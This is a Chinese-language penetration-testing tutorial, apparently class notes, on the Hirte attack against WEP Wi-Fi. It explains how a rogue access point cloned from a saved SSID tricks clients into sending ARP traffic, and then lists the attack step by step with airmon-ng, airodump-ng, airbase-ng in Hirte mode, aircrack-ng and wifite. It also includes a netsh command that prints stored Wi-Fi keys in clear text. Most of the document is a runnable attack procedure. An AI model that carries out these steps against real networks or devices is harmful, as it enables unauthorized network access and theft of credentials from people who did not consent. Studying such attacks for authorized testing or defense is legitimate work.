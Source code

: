 # WEP-渗透WEP新思路--Hirte

## 1.Hirte介绍

Hirte是破解无线网络WEP Key的一种攻击类型

只要客户端设备（笔记本电脑，手机等）连接过的无线网络，那些WIFI即使是不在攻击者范围内也都能被破解，因为该wifi的WEP密钥和配置文件仍然存储在这些无线设备中。

```
  netsh wlan show profile name="cisco-1809" key=clear    
```

实施这种攻击的要求是建立一个和WEP网络相同的SSID假冒接入点。当客户端设备尝试自动连接到无线网络设时，假冒接入点（攻击者机器）会对受害者设备进行ARP攻击，导致受害者设备将包含密钥流的数据包发出。

## 2.Hirte破解原理

1.安装一个假的WEP AP(wifi名,mac地址要相同)并等待客户端连接

2.客户端的连接等待自动分配IP地址

3.客户端发送一个ARP数据包

4.获得了ARP分组，并且将其转换成一个ARP请求为同一客户机

5.客户回复

6.收集这些数据包

7.破解WEP密钥

## 3.渗透姿势1

#### 1.查看网卡信息

```
ip a
```

#### 2.监听网卡

```
airmon-ng start wlan0
```

#### 3.扫描附近的wifi

```
airodump-ng wlan0mon
```

#### 4.配置airodump-ng捕捉数据包并保存数据包文件名字为HSEK

```
airodump-ng wlan0mon --bssid   D8:24:BD:79:18:0B --write HSEK
--bssid：AP的mac地址
--write：保存文件
```

#### 5.开始伪造AP,用airbase-ng工具建立WEP接入点

```
airbase-ng -c 1 -a  D8:24:BD:79:18:0B --essid "cisco-1809" -W 1 -N wlan0mon
-c:信道
-a：模拟AP的MAC地址
--essid：wifi的名称
-W:设置加密位
-N:使Hirte攻击模式
wlan0mon：是接口
```

#### 6.只要有客户端一连上来,就会进行攻击

![image-20211126191930629](https://img.gyxnb.top/img/image-20211126191930629.png)

![image-20211126191947433](https://img.gyxnb.top/img/image-20211126191947433.png)

#### 7.启动aircrack-ng从捕获的数据包：Hirte破解WEP密钥

```
aircrack-ng HSEK-01.cap
```

破解密码是有要求的,第一次ivs必须要大于5000,当小于这个数的话,就会提示

![image-20211126192040363](https://img.gyxnb.top/img/image-20211126192040363.png)

![image-20211126192054536](https://img.gyxnb.top/img/image-20211126192054536.png)

## 4.渗透姿势2

#### 1.扫描并指定破解方式

```
wifite  -wep -hirte
```

#### 2.加速ivs收集

```
ping -t 192.168.1.1
```

#### 3.开启攻击脚本

```
启动cmd.py
```

#### 4.获得密钥

![image-20211126192808198](https://img.gyxnb.top/img/image-20211126192808198.png)

## 5.课堂小结

参考：课后笔记